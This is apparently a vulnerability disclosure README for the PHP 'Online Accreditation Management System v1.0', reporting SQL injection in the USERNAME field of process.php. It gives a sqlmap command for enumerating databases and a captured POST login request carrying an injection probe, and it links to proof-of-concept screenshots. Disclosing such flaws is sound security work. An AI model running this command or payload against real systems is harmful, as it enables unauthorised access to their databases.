 # Online-Accreditation-Management-System-v1.0-SQLi
**[Online Accreditation Management System v1.0 - SQLi](https://itsourcecode.com/free-projects/php-project/online-accreditation-management-system-in-php-with-source-code/)**
---

[Vendor](https://itsourcecode.com/author/adonesevangelista/)
---

![image-20220527131251530](png01.png)


### Description:

---

The vulnerability page is ```process.php```

```http://your-ip/AccreditationSystem/```


Online Accreditation Management System v1.0  

The ```USERNAME``` parameter in the ```process.php``` page appears to be vulnerable to SQL injection attacks.

[+]sqlmap:

Save the POST request package in `1.txt`, and then run the sqlmap

`python sqlmap.py -r 1.txt  --dbs` 

[+]POST request package

```
POST /AccreditationSystem/process.php?action=loginagency HTTP/1.1
Host: 10.211.55.3
Content-Length: 40
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.61 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://10.211.55.3
Referer: http://10.211.55.3/AccreditationSystem/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=kc1vvdqjtt94b9i5461cf4s5r2
Connection: close

USERNAME=ff%E9%8E%88%27%22%5C%28&PASS=ff
```


### In action:

---

![image-20220527130708845](png02.png)

![image-20220527131145577](png03.png)


### Proof and Exploit:

---
![image-123](poc_00_00_00-00_00_30.gif)
